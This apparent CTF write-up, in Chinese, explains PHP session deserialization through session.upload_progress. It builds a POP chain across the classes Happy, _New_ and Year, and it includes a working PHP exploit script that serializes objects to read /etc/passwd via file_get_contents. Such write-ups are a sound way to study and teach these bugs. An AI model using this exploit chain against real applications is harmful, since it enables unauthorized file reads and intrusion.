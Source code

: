 看到`class.php`，我们的利用点是`file_get_contens`，通过这个函数来获取文件内容

这个php文件需要通过构造pop链来进行反序列化

回到index.php

```php
ini_set("session.serialize_handler", "php");
session_start()
```

显而易见，就是利用session反序列化

看phpinfo

![image-20220208123125368](https://img-blog.csdnimg.cn/img_convert/49606a746b8120579d384649ae288d53.png)



`session.upload_progress.enabled`为on，`session.upload_progress.cleanup`为off

所以，在index中没有可控的参数，我们就通过session.upload_progress，上传文件，来进行session反序列化。

这儿解释一下，`session.upload_progress.enabled`为`on`代表这，当我们从浏览器向服务器上传文件时，会将文件上传的详细信息(上传进度，上传内容等)存储在session中



构造pop链

```
Happy:__destruct()=>_New_:__get()=>_New_:__toString()=>Year:__toString()=>Year:Show()
```

所以exp为：

```php
<?php
    class Happy {
        public $happy;
    }

    class _New_{
        public $daniu;
        public $robot;
        public $notrobot;

 }
    class Year{
        public $zodiac;

    }

$a=new Happy();//创建Happy对象
$a->happy=new _New_();//当访问到Happy的destruct，就是new对象访问happy属性,触发new的get方法
$a->happy->daniu=new _New_();//把对象当作字符串，触发tostring方法
$a->happy->daniu->daniu=new Year();//$a->happy->daniu的daniu属性赋值
$a->happy->daniu->robot="zodiac";//给$zodiac赋值
$a->happy->daniu->notrobot="/etc/passwd";
//（string）转换，就是将对象当作字符串，触发year的tostring方法，然后到show方法。
echo serialize($a);

?>

```
